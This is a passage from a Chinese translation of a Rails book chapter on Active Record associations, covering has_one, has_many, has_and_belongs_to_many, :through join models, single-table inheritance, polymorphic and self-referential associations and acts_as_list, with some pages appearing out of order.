if order.invoice
  print_invoice(order.invoice)
end
```

如果在将一个新对象赋值给 `has_one` 关联时，已经存在一个子对象，那么该现有对象将被更新，以移除其与父行的外键关联（外键将被设置为 `null`）。这在下一页的图 18.1 中有展示。

#### has_one 的选项

你可以通过向 `has_one` 传递一个选项哈希来修改其默认关联。除了我们在 `belongs_to` 中看到的 `:class_name`、`:foreign_key` 和 `:conditions` 选项外，`has_many` 还有更多选项。我们稍后会介绍大部分选项，但有一个现在就可以介绍。

`:dependent` 选项告诉 Active Record 当你在父表中删除一行时，该如何处理子行。它有五个可能的值。

`:dependent => :destroy` (或 `true`)

当父行被销毁时，子行也被销毁。

`:dependent => :nullify`

当父行被销毁时，子行将成为孤立记录。这是通过将子行的外键设置为 `null` 来实现的。

`:dependent => false` (或 `nil`)

当父行被销毁时，子行既不会被更新也不会被删除。如果你在子表和父表之间定义了外键约束，使用此选项可能会导致在父行被删除时违反约束。

#### has_many 声明

`has_many` 定义了一个行为类似于子对象集合的属性。

```ruby
class Order < ActiveRecord::Base
  has_many :line_items
end
```

| 声明 | 外键 | 目标类 | 目标表 |
| :--- | :--- | :--- | :--- |
| has_many :line_items | order_id（在 line_items 表中） | LineItem | line_items |

你可以将子对象作为一个数组来访问，查找特定的子对象，以及添加新的子对象。例如，以下代码向一个订单添加一些订单项。

```ruby
order = Order.new
params[:products_to_buy].each do |prd_id, qty|
  product = Product.find(prd_id)
  order.line_items << LineItem.new(:product => product,
                                   :quantity => qty)
end
order.save
```

追加运算符 (`<<`) 不仅仅是向订单中的列表追加一个对象。它还负责将这些订单项链接回此订单，通过设置它们的外键为此订单的 `id`，并且当父订单被保存时，这些订单项也会自动保存。

我们可以遍历 `has_many` 关联的子对象——该属性的行为就像一个数组。

```ruby
order = Order.find(132)
total = 0.0

order.line_items.each do |li|
    total += li.quantity * li.unit_price
end
```

与 `has_one` 一样，你可以通过向 `has_many` 提供一个选项哈希来修改 Active Record 的默认值。选项 `:class_name`、`:foreign_key` 和 `:conditions` 的工作方式与 `has_one` 方法相同。

`:dependent` 选项可以接受 `:destroy`、`:nullify` 和 `false` 这些值——它们的含义与 `has_one` 相同，只是应用于所有子行。`has_many` 版本的 `:dependent` 还有一个额外的值 `:delete_all`。与 `:destroy` 选项一样，当父行被销毁时，它会移除子行。让我们看看这两个选项的区别。

`:dependent => :destroy` 通过遍历子表，对每一行调用 `destroy` 方法来工作，这些行都有一个引用正在被删除的父行的外键。

然而，如果子表只被父表使用（即没有其他依赖关系），并且它没有用于在删除时执行任何操作的钩子方法，你可以改用 `:dependent => :delete_all`。此选项会导致子行在单个 SQL 语句中被删除（这将更快）。

你可以通过设置 `:finder_sql` 和 `:counter_sql` 选项来覆盖 Active Record 用于获取和计数子行的 SQL。这在仅仅通过 `:condition` 选项向 `where` 子句添加内容还不够的情况下很有用。例如，你可以为特定产品创建一个所有订单项的集合。

```ruby
class Order < ActiveRecord::Base
    has_many :rails_line_items,
            :class_name => "LineItem",
            :finder_sql => "select l.* from line_items l, products p " +
                            " where l.product_id = p.id " +
                            " and p.title like '%rails%'"
end
```

`:counter_sql` 选项用于覆盖 Active Record 在计数行时使用的查询。如果指定了 `:finder_sql` 而未指定 `:counter_sql`，Active Record 将通过将 `finder_sql` 的 `select` 部分替换为 `select count(*)` 来合成计数 SQL。

如果你需要在遍历集合时使其按特定顺序排列，你需要指定 `:order` 选项。你提供的 SQL 片段就是将在 `select` 语句的 `order by` 子句后出现的文本。它由一个或多个列名组成。集合将根据列表中的第一列进行排序。如果两行在此列中具有相同的值，排序将使用列表中的第二个条目来决定它们的顺序，以此类推。每列的默认排序顺序是升序——在列名后放置关键字 `DESC` 以反转此顺序。

以下代码可用于指定订单的订单项按数量排序（最小数量优先）。

```ruby
class Order < ActiveRecord::Base
  has_many :line_items,
           :order => "quantity, unit_price DESC"
end
```

如果两个订单项的数量相同，则单位价格最高的那个将排在前面。

当我们谈论 `has_one` 时，我们提到它也支持 `:order` 选项。这可能看起来很奇怪——如果一个父对象只关联一个子对象，那么在获取该子对象时指定排序有什么意义？

事实证明，Active Record 可以在底层数据库中不存在 `has_many` 关系的情况下创建 `has_many` 关系。例如，一个客户可能有多个订单：这是一个 `has_many` 关系。但该客户只会有一个*最近的*订单。我们可以使用 `has_one` 结合 `:order` 选项来表达这一点。

```ruby
class Customer < ActiveRecord::Base
  has_many :orders
  has_one  :most_recent_order,
           :class_name => 'Order',
           :order      => 'created_at DESC'
end
```

此代码在客户模型中创建了一个新属性 `most_recent_order`。它将引用具有最新 `created_at` 时间戳的订单。我们可以使用此属性来查找客户的最近订单。

```ruby
cust = Customer.find_by_name("Dave Thomas")
puts "Dave last ordered on #{cust.most_recent_order.created_at}"
```

这之所以有效，是因为 Active Record 实际上使用如下 SQL 来获取 `has_one` 关联的数据：

```sql
SELECT * FROM orders
WHERE    customer_id = ?
ORDER BY created_at DESC
LIMIT    1
```

`limit` 子句意味着只返回一行，满足了 `has_one` 声明的“一个”部分。`order by` 子句确保该行是最近的。

当我们研究更高级的 Active Record 主题时，我们将介绍 `has_many` 支持的许多其他选项。

##### has_many() 添加的方法

就像 `belongs_to` 和 `has_one` 一样，`has_many` 向其宿主类添加了许多与属性相关的方法。同样，这些方法的名称以属性的名称开头。在接下来的描述中，我们将列出由以下声明添加的方法：

```ruby
class Customer < ActiveRecord::Base
  has_many :orders
end
```

**orders(force_reload=false)**
返回与此客户关联的订单数组（如果没有，则可能为空）。结果被缓存，如果之前已获取过订单，除非传递 `true` 作为参数，否则不会再次查询数据库。

**orders << order**
将 `order` 添加到与此客户关联的订单列表中。

**orders.push(order1, ...)**
将一个或多个订单对象添加到与此客户关联的订单列表中。`concat` 是此方法的别名。

**orders.replace(order1, ...)**
用新集合替换与此客户关联的订单集合。检测当前子对象集合与新集合之间的差异，并相应地优化数据库更改。

**orders.delete(order1, ...)**
从与此客户关联的订单列表中移除一个或多个订单对象。如果关联被标记为 `:dependent => :destroy` 或 `:delete_all`，每个子对象将被销毁。否则，将其 `customer_id` 外键设置为 `null`，从而断开关联。

**orders.delete_all**
对所有子行调用关联的 `delete` 方法。

**orders.destroy_all**
对所有子行调用关联的 `destroy` 方法。


**orders.clear**
将所有订单与当前客户解除关联。与 `delete` 类似，此操作会断开关联，但只有在订单被标记为 `:dependent` 时才会从数据库中删除订单。

**orders.find(*options...*)**
执行常规的 `find` 调用，但结果会限定为仅返回与当前客户关联的订单。适用于 `id`、`:all` 和 `:first` 等形式。

**orders.count(*options...*)**
返回子项的数量。如果指定了自定义的查询或计数 SQL，则使用该 SQL。否则，使用标准的 Active Record 计数，并限定为具有适当外键的子行。可以传递 `count` 的任何可选参数。

**orders.size**
如果已加载关联（通过访问它），则返回该集合的大小。否则通过查询数据库返回计数。与 `count` 不同，`size` 方法会遵循传递给 `has_many` 的任何 `:limit` 选项，并且不使用 `finder_sql`。

**orders.length**
强制重新加载关联，然后返回其大小。

**orders.empty?**
等同于 `orders.size.zero?`。

**orders.sum(*options...*)**
等同于在关联的行上执行常规的 Active Record `sum` 方法（文档记录在第 **307** 页）。请注意，此方法使用数据库行上的 SQL 函数工作，而不是遍历内存中的集合。

**orders.uniq**
返回一个包含唯一 ID 的子项数组。

**orders.build(*attributes={}*)**
构造一个新的订单对象，使用给定的属性进行初始化，并链接到该客户。不会保存到数据库。

**orders.create(*attributes={}*)**
构造并保存一个新的订单对象，使用给定的属性进行初始化，并链接到该客户。

> **是的，这很令人困惑……**

你可能已经注意到，由 `has_many` 添加到你的 Active Record 类的方法存在大量重复（或近乎重复）。例如，`count`、`size` 和 `length` 之间，或者 `clear`、`destroy_all` 和 `delete_all` 之间的差异很微妙。这主要是由于 Active Record 随着时间的推移逐渐累积了特性。随着新选项的添加，现有方法并不总是得到更新。我猜测在某个时候，这个问题会得到解决，这些方法将被统一。值得研究 Rails API 的在线文档，因为本书出版后 Rails 很可能已经发生了变化。

#### has_and_belongs_to_many 声明

`has_and_belongs_to_many`（为节省我可怜的手指，以下简称 habtm）在很多方面表现得像 `has_many`。habtm 创建的属性本质上是一个集合。此属性支持与 `has_many` 相同的方法。此外，habtm 允许你在关联两个对象时向连接表添加信息（尽管，正如我们将看到的，这种能力正逐渐不受欢迎）。

让我们用一个不是我们商店应用的例子来说明 habtm。也许我们正在使用 Rails 编写一个社区网站，用户可以在上面阅读文章。有许多用户和许多文章，任何用户都可以阅读任何文章。出于跟踪目的，我们想了解谁读了每篇文章，以及每个人读了哪些文章。我们还想了解用户最后一次查看特定文章的时间。我们将通过一个简单的连接表来实现这一点。在 Rails 中，连接表的名称是两个被连接表的名称按字母顺序拼接而成。

我们将设置我们的两个模型类，使它们通过这个表相互关联。

```ruby
class Article < ActiveRecord::Base
  has_and_belongs_to_many :users
  # ...
end

class User < ActiveRecord::Base
  has_and_belongs_to_many :articles
  # ...
end
```

这允许我们执行诸如列出所有阅读过文章 123 的用户以及 *pragdave* 阅读的所有文章等操作。

```ruby
# 谁阅读过文章 123？
article = Article.find(123)
readers = article.users

# Dave 阅读过什么？
dave = User.find_by_name("pragdave")
articles_that_dave_read = dave.articles

# 每个用户阅读文章 123 多少次
counts = Article.find(123).users.count(:group => "users.name")
```

当我们的应用注意到有人阅读了一篇文章时，它会将他们的用户记录与该文章关联起来。我们将使用 User 类中的实例方法来执行此操作。

```ruby
class User < ActiveRecord::Base
  has_and_belongs_to_many :articles

  # 此用户刚刚阅读了给定的文章
  def just_read(article)
    articles << article
  end

  # ...
end
```

如果我们想在用户和文章之间的关联之外记录更多信息，例如记录用户 *何时* 阅读了文章，我们该怎么做？在以前（2005 年末），我们会使用 `push_with_attributes` 方法。它执行与 `<<` 方法相同的所有链接两个模型的操作，但它还会在每次有人阅读文章时，将给定的值添加到它创建的连接表行中。

然而，`push_with_attributes` 已被弃用，取而代之的是一种更强大的技术，即使用常规的 Active Record 模型作为连接表（请记住，使用 `habtm` 时，连接表不是一个 Active Record 对象）。我们将在下一节讨论这个方案。

与其他关系方法一样，`habtm` 支持一系列覆盖 Active Record 默认值的选项。`:class_name`、`:foreign_key` 和 `:conditions` 的工作方式与其他 `has_` 方法相同（`:foreign_key` 选项设置连接表中此表的外键列的名称）。此外，`habtm` 支持用于覆盖连接表名称、连接表中外键列名称以及用于查找、插入和删除两个模型之间链接的 SQL 的选项。有关详细信息，请参阅 API 文档。

##### 使用模型作为连接表

目前 Rails 的理念是保持连接表的纯粹性——连接表应只包含一对外键列。每当你觉得需要向此类表添加更多数据时，你实际上是在创建一个新的模型——连接表从一个简单的链接机制转变为一个成熟的、参与应用业务的参与者。让我们回顾一下之前的用户和文章的例子。

在简单的 `habtm` 实现中，连接表记录了一篇文章被某个用户阅读的事实。连接表中的行没有独立存在的意义。但很快我们就发现自己想向这个表添加信息：我们想记录读者何时阅读了这篇文章，以及他们读完后给了多少星。连接表突然有了自己的生命，值得拥有自己的 Active Record 模型。我们称它为 `Reading`。其模式如下所示。

使用我们在本章中迄今为止看到的 Rails 工具，我们可以用以下方式建模。

```ruby
class Article < ActiveRecord::Base
  has_many :readings
end

class User < ActiveRecord::Base
  has_many :readings
end

class Reading < ActiveRecord::Base
  belongs_to :article
  belongs_to :user
end
```

当用户阅读一篇文章时，我们可以记录这个事实。

```ruby
reading = Reading.new
reading.rating = params[:rating]
reading.read_at = Time.now
reading.article = current_article
reading.user = session[:user]
reading.save
```

然而，与 `habtm` 解决方案相比，我们失去了一些东西。我们不再能轻松地询问一篇文章它的读者是谁，或者询问一个用户他们阅读了哪些文章。这就是 `:through` 选项的用武之地。让我们更新一下我们的文章和用户模型。

```ruby
class Article < ActiveRecord::Base
  has_many :readings
  has_many :users, :through => :readings
end
```

```ruby
class User < ActiveRecord::Base
  has_many :readings
  has_many :articles, :through => :readings
end
```

两个新的 `has_many` 声明上的 `:through` 选项告诉 Rails，可以使用 `readings` 表从（比如说）一篇文章导航到许多阅读过该文章的用户。现在我们可以编写像这样的代码

`readers = an_article.users`

在幕后，Rails 构建了必要的 SQL 来返回所有从 `readings` 表引用的用户行，其中 `readings` 行引用了原始的文章。（呼！）

`:through` 参数指定了在原始模型类中要遍历的关联。因此，当我们说

```ruby
class Article < ActiveRecord::Base
  has_many :readings
  has_many :users, :through => :readings
end
```

参数 `:through => :readings` 告诉 Active Record 使用 `has_many :readings` 关联来找到一个名为 `Reading` 的模型。

我们给关联起的名称（本例中是 `:users`）则告诉 Active Record 使用哪个属性来查找用户（`user_id`）。你可以通过向 `has_many` 声明添加 `:source` 参数来更改它。例如，到目前为止，我们将阅读文章的人称为 `users`，仅仅因为那是 `Reading` 模型中的关联名称。但是，很容易将他们称为 `readers`——我们只需要覆盖所使用的关联名称。

```ruby
class Article < ActiveRecord::Base
  has_many :readings
  has_many :readers, :through => :readings, :source => :user
end
```

事实上，我们可以更进一步。这仍然是一个 `has_many` 声明，因此它会接受所有 `has_many` 参数。例如，让我们创建一个关联，返回所有给我们的文章评分四星或更高的用户。

```ruby
class Article < ActiveRecord::Base
  has_many :readings
```


has_many :readers, :through => :readings, :source => :user
has_many :happy_users, :through => :readings, :source => :user,
                    :conditions => 'readings.rating >= 4'
end

##### 移除重复项

`has_many :through` 返回的集合仅仅是遵循底层连接关系的结果。如果一个用户阅读了某篇文章三次，那么向该文章请求其用户列表，将会返回该用户的三个模型副本（连同文章其他读者的模型副本）。有两种方法可以移除这些重复项。

第一种，你可以在 `has_many` 声明中添加限定符 `:unique => true`。

```ruby
class Article < ActiveRecord::Base
  has_many :readings
  has_many :users, :through => :readings, :unique => true
end
```

这是完全在 Active Record 内部实现的：数据库返回一整行数据，然后 Active Record 处理它并消除任何重复的对象。

也有一个技巧可以在数据库层面执行去重。你可以覆盖 Active Record 生成的 SQL 的 `select` 部分，添加 `distinct` 限定符。你必须记得添加表名，因为生成的 SQL 语句中包含连接。

```ruby
class Article < ActiveRecord::Base
  has_many :readings
  has_many :users, :through => :readings, :select => "distinct users.*"
end
```

你可以使用 `<<` 方法（别名为 `push`）来创建新的 `:through` 关联。关联的两端都必须先前已保存过，此操作才能生效。

```ruby
class Article < ActiveRecord::Base
  has_many :readings
  has_many :users, :through => :readings
end

user = User.create(:name => "dave")
article = Article.create(:name => "Join Models")

article.users << user
```

你也可以使用 `create!` 方法在关联的远端创建一行记录。这段代码等同于前面的例子。

```ruby
article = Article.create(:name => "Join Models")
article.users.create!(:name => "dave")
```

请注意，使用这种方法无法设置中间表的属性。

##### 扩展关联

关联声明（belongs_to, has_xxx）描述了你的模型对象之间的业务关系。通常，特定的关联会附带额外的业务逻辑。在前面的例子中，我们定义了文章与其读者之间的一种称为 Reading 的关系。这种关系包含了用户对他们刚刚阅读的文章的评分。给定一个用户，我们如何获取他们评为三星或更高评分的文章列表？四星或更高？等等。

我们已经看到了一种方法：我们可以构建新的关联，其中结果集满足一些额外的条件。我们在第 **341** 页的 happy_users 关联中就是这样做的。然而，这种方法是受限的——我们无法参数化查询，让调用者决定什么评分算作“快乐”。

另一种方法是让使用我们模型的代码自己添加查询条件。

```ruby
user = User.find(some_id)
user.articles.find(:all, :conditions => [ 'rating >= ?', 3])
```

这虽然有效，但有点破坏封装：我们真的希望将基于评分查找文章的概念封装在 articles 关联内部。Rails 允许我们通过向任何 has_many 声明添加一个块来实现这一点。在此块中定义的任何方法都将成为关联本身的方法。

以下代码在用户模型的 articles 关联中添加了查找方法 `rated_at_or_above`。

```ruby
class User < ActiveRecord::Base
  has_many :readings
  has_many :articles, :through => :readings do
    def rated_at_or_above(rating)
      find :all, :conditions => ['rating >= ?', rating]
    end
  end
end
```

给定一个用户模型对象，我们现在可以调用此方法来检索他们评分较高的文章列表。

```ruby
user = User.find(some_id)
good_articles = user.articles.rated_at_or_above(4)
```

虽然我们在这里用的是 `has_many` 的 `:through` 选项来说明，但这种用你自己的方法扩展关联的能力适用于所有关联声明。

##### 共享关联扩展

有时你会想将同一组扩展应用到多个关联。你可以通过将扩展方法放入一个 Ruby 模块，然后使用 `:extend` 参数将该模块传递给关联声明来实现。

```ruby
has_many :articles, :extend => RatingFinder
```

你可以通过向 `:extend` 传递一个数组来用多个模块扩展一个关联。

```ruby
has_many :articles, :extend => [ RatingFinder, DateRangeFinder ]
```

### 18.4 连接到多个表

关系型数据库允许我们在表之间建立连接：例如，我们 orders 表中的一行与 line_items 表中的多行相关联。这种关系是静态定义的。然而，有时这并不方便。

你可以通过一些巧妙的编码来绕过这个问题，但幸运的是你不必这么做。Rails 提供了两种机制将关系模型映射为更复杂的面向对象模型：单表继承和多态关联。让我们依次看看每一种。

#### 单表继承

当我们用对象和类编程时，我们有时会使用继承来表达抽象之间的关系。我们的应用程序可能会处理各种角色的人员：客户、员工、经理等等。所有角色都有一些共同的属性，另一些属性则是特定角色独有的。我们可以通过说明 Employee 类和 Customer 类都是 Person 类的子类，而 Manager 又是 Employee 的子类来对此建模。子类继承其父类的属性和责任。²

在关系型数据库世界里，我们没有继承的概念：关系主要通过关联来表达。但是，Martin Fowler 在《企业应用架构模式》[Fow03] 中描述的单表继承，让我们可以将继承层次结构中的所有类映射到单个数据库表。该表包含一个列，用于层次结构中所有类的每个属性。此外，它还包括一个列，按照惯例称为 type，用于标识任何特定行所代表的特定类的对象。这在后续的图 18.2 中进行了说明。

> ² 当然，继承在编程中是一种被滥用的结构。在走这条路之前，问问自己是否真的拥有 is-a（是一个）关系。例如，一个员工也可能是一个客户，这在静态继承树中很难建模。在这些情况下，请考虑替代方案（例如标签或基于角色的分类法）。

在 Active Record 中使用单表继承很简单。在你的模型类中定义你需要的继承层次结构，并确保与该层次结构基类对应的表包含一个列，用于该层次结构中所有类的每个属性。该表还必须包含一个 type 列，用于区分相应模型对象的类。

在定义表时，请记住子类的属性将仅出现在对应于这些子类的表行中；例如，员工没有 balance 属性。因此，你必须定义表，允许任何未出现在所有子类中的列为空值。以下是创建图 18.2（在下一页）所示表的迁移。

```ruby
create_table :people, :force => true do |t|
  t.column :type, :string

  # common attributes
  t.column :name, :string
  t.column :email, :string

  # attributes for type=Customer
  t.column :balance, :decimal, :precision => 10, :scale => 2

  # attributes for type=Employee
  t.column :reports_to, :integer
  t.column :dept,        :integer

  # attributes for type=Manager
  # - none -
end
```

我们可以定义我们的模型对象层次结构。

```ruby
class Person < ActiveRecord::Base
end

class Customer < Person
end

class Employee < Person
  belongs_to :boss, :class_name => "Employee", :foreign_key => :reports_to
end

class Manager < Employee
end
```




```ruby
class Person < ActiveRecord::Base
  # ...
end

class Customer < Person
  # ...
end

class Employee < Person
  # ...
end

class Manager < Employee
  # ...
end
```

| id | type | name | email | balance | reports_to | dept |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | Customer | John Doe | john@doe.com | 78.29 | | |
| 2 | Manager | Wilma Flint | wilma@here.com | | | 23 |
| 3 | Customer | Bert Public | b@public.net | 12.45 | | |
| 4 | Employee | Barney Rub | barney@here.com | | 2 | 23 |
| 5 | Employee | Betty Rub | betty@here.com | | 2 | 23 |
| 6 | Customer | Ira Buyer | ira9652@aol.com | -66.76 | | |
| 7 | Employee | Dino Dogg | dino@dig.prg | | 2 | 23 |

图 18.2：单表继承：四个类层次结构映射到一个表

接着我们创建几行数据并读取回来。

```ruby
Customer.create(:name => 'John Doe',    :email => "john@doe.com",
                                :balance => 78.29)

wilma = Manager.create(:name  => 'Wilma Flint', :email => "wilma@here.com",
                                        :dept => 23)

Customer.create(:name => 'Bart Public', :email => "b@public.net",
                                :balance => 12.45)

barney = Employee.new(:name => 'Barney Rub',  :email => "barney@here.com",
                                    :dept => 23)
barney.boss = wilma
barney.save!
```

```ruby
manager = Person.find_by_name("Wilma Flint")
puts manager.class    #=> Manager
puts manager.email    #=> wilma@here.com
puts manager.dept      #=> 23

customer = Person.find_by_name("Bart Public")
puts customer.class    #=> Customer
puts customer.email    #=> b@public.net
puts customer.balance  #=> 12.45
```

注意我们如何请求基类 `Person` 去查找一行数据，但返回对象的类在一种情况下是 `Manager`，在另一种情况下是 `Customer`；Active Record 通过检查该行的 `type` 列来确定类型，并创建了相应的对象。

同时请注意我们在 `Employee` 类中使用的一个小技巧。我们使用了 `belongs_to` 来创建一个名为 `boss` 的属性。这个属性使用了 `reports_to` 列，该列指回 `people` 表。这就是我们能够写 `barney.boss = wilma` 的原因。

使用单表继承时有一个相当明显的约束。两个子类不能拥有同名但不同类型的属性，因为这两个属性将映射到底层模式中的同一列。

还有一个不太明显的约束。属性 `type` 也是一个内置 Ruby 方法的名称，因此直接访问它来设置或更改行的类型可能会导致奇怪的 Ruby 消息。相反，应通过创建相应类的对象来隐式地访问它，或者通过模型对象的索引接口来访问，使用类似以下的方式：

```ruby
person[:type] = 'Manager'
```

##### 乔问...
##### 如果我想要纯粹的继承关系怎么办？

单表继承很巧妙——只要你创建一个 Active Record 类的子类，它就会自动启用。但如果你想要真正的继承——你希望定义一个抽象基类和一组子类，从而为一组 Active Record 类定义共享某些行为？

答案是在你的抽象基类中定义一个名为 `abstract_class?` 的类方法。该方法应该返回 `true`。这有两个作用。首先，Active Record 永远不会尝试查找与此抽象类对应的数据库表。其次，该类的所有子类将被视为独立的 Active Record 类——每个子类将映射到自己的数据库表。

当然，更好的方法可能是使用包含共享功能的 Ruby 模块，并将其混入需要该行为的 Active Record 类中。

##### 大卫说...
##### 子类不会共享 STI 中所有的属性吗？

是的，但这并不像你想象的那么大问题。只要子类之间相似性大于差异性，在处理客户时你完全可以忽略 `reports_to` 属性。你只是不使用那个属性。

我们是在用客户模型的纯粹性来换取速度（只从 `people` 表选择比从 `people` 和 `customers` 表连接查询快得多）和实现的简便性。

这在很多情况下都有效，但不是所有情况。对于子类之间重叠很少的抽象关系，它效果不太好。例如，一个内容管理系统可以声明一个 `Content` 基类，并拥有诸如 `Article`、`Image`、`Page` 等子类。但这些子类可能差异很大，这将导致基表过于庞大，因为它必须包含所有子类的所有属性。在这种情况下，最好使用多态关联，我们接下来将进行描述。

#### 多态关联

单表继承的一个主要缺点是，底层存在一个单一的表，其中包含了我们继承树中所有子类的所有属性。我们可以使用 Rails 的第二种异构聚合形式——*多态关联*来克服这一点。

多态关联依赖于外键列仅仅是一个整数这一事实。虽然存在一个惯例，即名为 `user_id` 的外键引用 `users` 表中的 `id` 列，但没有法律强制要求这一点。³

在计算机科学中，多态是一种机制，它让你能够抽象出某物接口的本质，而不管其底层实现如何。例如，`add` 方法就是多态的，因为它可以处理整数、浮点数，甚至字符串。

在 Rails 中，多态关联是一种链接到不同类型对象的关联。其假设是这些对象都具有某些共同特征，但它们会有不同的表示形式。

为了具体说明，让我们看一个简单的资产管理系统。我们用一个简单的目录来索引我们的资产。每个目录条目包含一个名称、获取日期以及对实际资源的引用：一篇文章、一张图片、一个声音等。每种不同的资源类型对应于不同的数据库表和不同的 Active Record 模型，但它们都是资产，并且都被编入目录。

让我们从包含三种类型资源的三个表开始。

```ruby
create_table :articles, :force => true do |t|
  t.column :content, :text
end

create_table :sounds, :force => true do |t|
  t.column :content, :binary
end

create_table :images, :force => true do |t|
  t.column :content, :binary
end
```

现在，让我们思考一下包装这些表的三个模型。我们希望能够编写类似这样的代码：

```ruby
# 这段代码无法工作
class Article < ActiveRecord::Base
  has_one :catalog_entry
end
```

> 3. 如果你指定数据库应强制执行外键约束，那么多态关联将无法工作。

```ruby
class Sound < ActiveRecord::Base
  has_one :catalog_entry
end
```

```ruby
class Image < ActiveRecord::Base
  has_one :catalog_entry
end
```

不幸的是，这行不通。当我们在模型中说 `has_one :catalog_entry` 时，这意味着 `catalog_entries` 表有一个外键引用回我们的表。但这里我们有三个表，每个表都声称拥有一个目录条目：我们不可能安排目录条目中的外键指回所有三个表……

……除非我们使用多态关联。技巧是在我们的目录条目中使用两个列来表示外键。一个列保存目标行的 id，第二个列告诉 Active Record 该键属于哪个模型。如果我们将目录条目的外键命名为 `resource`，我们将需要创建两个列：`resource_id` 和 `resource_type`。以下是创建完整目录条目的迁移。

```ruby
create_table :catalog_entries, :force => true do |t|
  t.column :name, :string
  t.column :acquired_at, :datetime
  t.column :resource_id, :integer
  t.column :resource_type, :string
end
```

现在我们可以为目录条目创建 Active Record 模型了。我们必须告诉它我们正在通过 `resource_id` 和 `resource_type` 列创建一个多态关联。

```ruby
class CatalogEntry < ActiveRecord::Base
  belongs_to :resource, :polymorphic => true
end
```

现在基础设施已经就位，我们可以定义三种资产类型对应的 Active Record 模型的最终版本。

```ruby
class Article < ActiveRecord::Base
  has_one :catalog_entry, :as => :resource
end

class Sound < ActiveRecord::Base
  has_one :catalog_entry, :as => :resource
end
```


### 18.5 自引用关联

表中的某一行可以引用同一表中的另一行。例如，公司中的每位员工可能都有一位经理和一位导师，他们本身也都是员工。你可以使用以下的 `Employee` 类在 Rails 中对此进行建模。

Download e1/ar/self_association.rb

```ruby
class Employee < ActiveRecord::Base
  belongs_to :manager,
             :class_name => "Employee",
             :foreign_key => "manager_id"

  belongs_to :mentor,
             :class_name => "Employee",
             :foreign_key => "mentor_id"

  has_many :mentored_employees,
           :class_name => "Employee",
           :foreign_key => "mentor_id"

  has_many :managed_employees,
           :class_name => "Employee",
           :foreign_key => "manager_id"
end
```

让我们加载一些数据。Clem 和 Dawn 每个人都有一位经理和一位导师。

Download e1/ar/self_association.rb

```ruby
Employee.delete_all

adam = Employee.create(:id => 1, :name => "Adam")
beth = Employee.create(:id => 2, :name => "Beth")

clem = Employee.new(:name => "Clem")
clem.manager = adam
clem.mentor = beth
clem.save!

dawn = Employee.new(:name => "Dawn")
dawn.manager = adam
dawn.mentor = clem
dawn.save!
```

然后我们可以遍历这些关系，回答诸如“谁是 X 的导师？”和“Y 管理哪些员工？”之类的问题。

Download e1/ar/self_association.rb

```ruby
p adam.managed_employees.map {|e| e.name}  # => [ "Clem", "Dawn" ]
p adam.mentored_employees                # => []
p dawn.mentor.name                       # => "Clem"
```

你可能还想看看各种 `acts as` 关系。

### 18.6 Acts As

我们已经看到 `has_one`、`has_many` 和 `has_and_belongs_to_many` 如何让我们表示标准的关系数据库结构：一对一、一对多和多对多映射。但有时我们需要在这些基础之上构建更多功能。

例如，一个订单可能有一个发票项目列表。到目前为止，我们已经成功地使用 `has_many` 表示了它们。但随着应用程序的增长，我们可能需要为这些行项添加更多类似列表的行为，允许我们对行项进行排序和移动。

或者，我们可能希望以树状数据结构管理我们的产品类别，其中类别有子类别，而这些子类别又有自己的子类别。

Active Record 支持在现有的 `has_` 关系之上添加此功能。它称之为 *acts as*，因为它使模型对象表现得好像它是别的东西。⁴

#### Acts As List

在子模型中使用 `acts_as_list` 声明，可以从父模型的角度赋予该子模型类似列表的行为。父模型将能够遍历子项、在列表中移动子项以及从列表中移除子项。

列表通过为每个子项分配一个位置编号来实现。这意味着子表必须有一个列来记录这个位置。如果我们称该列为 `position`，Rails 将自动使用它。如果不是，我们需要告诉它列名。在我们的示例中，我们将创建一个新的子表（称为 `children`）以及一个父表。

```ruby
create_table :parents, :force => true do |t|
end

create_table :children, :force => true do |t|
  t.column :parent_id, :integer
  t.column :name,       :string
  t.column :position,   :integer
end
```

接下来我们将创建模型类。注意，在 `Parent` 类中，我们根据 `position` 列的值对子项进行排序。这确保了从数据库中获取的数组具有正确的列表顺序。

4. Rails 附带了三种 *acts as* 扩展：`acts_as_list`、`acts_as_tree` 和 `acts_as_nested_set`。我选择只记录前两种；在编写本书时，`acts_as_nested_set` 变体仍然存在一些严重问题，我们无法通过实际代码验证其使用。

---

class Image < ActiveRecord::Base
  has_one :catalog_entry, :as => :resource
end

这里的重点是 `has_one` 的 `:as` 选项。它指定目录条目和资源之间的关联是多态的，使用目录条目中的 `resource` 属性。让我们试试看。

```ruby
Download e1/ar/polymorphic.rb

a = Article.new(:content => "This is my new article")
c = CatalogEntry.new(:name => 'Article One', :acquired_at => Time.now)
c.resource = a
c.save!
```

让我们看看数据库内部发生了什么。这篇文章没有什么特别之处。

```sql
mysql> select * from articles;
+----+-------------------+
| id | content           |
+----+-------------------+
|  1 | This is my new article |
+----+-------------------+
1 row in set (0.00 sec)
```

目录条目有对文章的外键引用，还记录了它引用的 Active Record 对象类型（`Article`）。

```sql
mysql> select * from catalog_entries;
+----+-------------+---------------------+-------------+---------------+
| id | name        | acquired_at         | resource_id | resource_type |
+----+-------------+---------------------+-------------+---------------+
|  1 | Article One | 2006-07-18 16:48:29 |           1 | Article       |
+----+-------------+---------------------+-------------+---------------+
1 row in set (0.00 sec)
```

我们可以从关联的任一方访问数据。

```ruby
Download e1/ar/polymorphic.rb

article = Article.find(1)
p article.catalog_entry.name  #=> "Article One"

cat = CatalogEntry.find(1)
resource = cat.resource
p resource              #=> #<Article:0x640d80 @attributes={"id"=>"1",
                        #   "content"=>"This is my new article"}>
```

这里的巧妙之处在于 `resource = cat.resource` 这一行。我们向目录条目请求它的 `resource`，它返回了一个 `Article` 对象。它正确地确定了 Active Record 类，从相应的数据库表（`articles`）读取数据，并返回了正确类别的对象。

让我们使其更有趣。让我们清空数据库，然后添加所有三种类型的资源。

```ruby
Download e1/ar/polymorphic.rb

c = CatalogEntry.new(:name => 'Article One', :acquired_at => Time.now)
c.resource = Article.new(:content => "This is my new article")
c.save!

c = CatalogEntry.new(:name => 'Image One', :acquired_at => Time.now)
c.resource = Image.new(:content => "some binary data")
c.save!

c = CatalogEntry.new(:name => 'Sound One', :acquired_at => Time.now)
